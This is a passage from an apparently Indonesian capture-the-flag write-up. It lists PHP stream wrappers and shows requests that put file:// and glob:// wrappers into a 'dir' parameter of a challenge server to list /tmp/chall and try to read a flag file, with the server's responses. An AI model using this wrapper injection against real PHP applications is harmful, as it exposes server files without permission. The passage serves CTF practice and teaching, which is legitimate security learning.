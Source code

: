 bisa dilihat disitu tertulis `Supported Protocols and Wrappers` bisa dilihat dokumentasinya disini `https://www.php.net/manual/en/wrappers.php` yang kira-kira isinya seperti ini : 

`Table of Contents`

- file:// — Accessing local filesystem
- http:// — Accessing HTTP(s) URLs
- ftp:// — Accessing FTP(s) URLs
- php:// — Accessing various I/O streams
- zlib:// — Compression Streams
- data:// — Data (RFC 2397)
- glob:// — Find pathnames matching pattern
- phar:// — PHP Archive
- ssh2:// — Secure Shell 2
- rar:// — RAR
- ogg:// — Audio streams
- expect:// — Process Interaction Streams

kita bakal memanfaatkan protokol tersebut yaitu 

- file:// — Accessing local filesystem

`requests`
```
http://ctf.iluv.my.id:9999/?dir=file:///tmp/chall/
```
`response`
```
764
4096
4096
39
```

`requests`
```
http://ctf.iluv.my.id:9999/?dir=file:///tmp/chall/flag
```
`response`
```
This page isn’t working ctf.iluv.my.id is currently unable to handle this request.
HTTP ERROR 500
```

- glob:// — Find pathnames matching pattern

`requests`
```
http://ctf.iluv.my.id:9999/?dir=glob://tmp/chall/
```
`response`
```
764
4096
4096
39
```
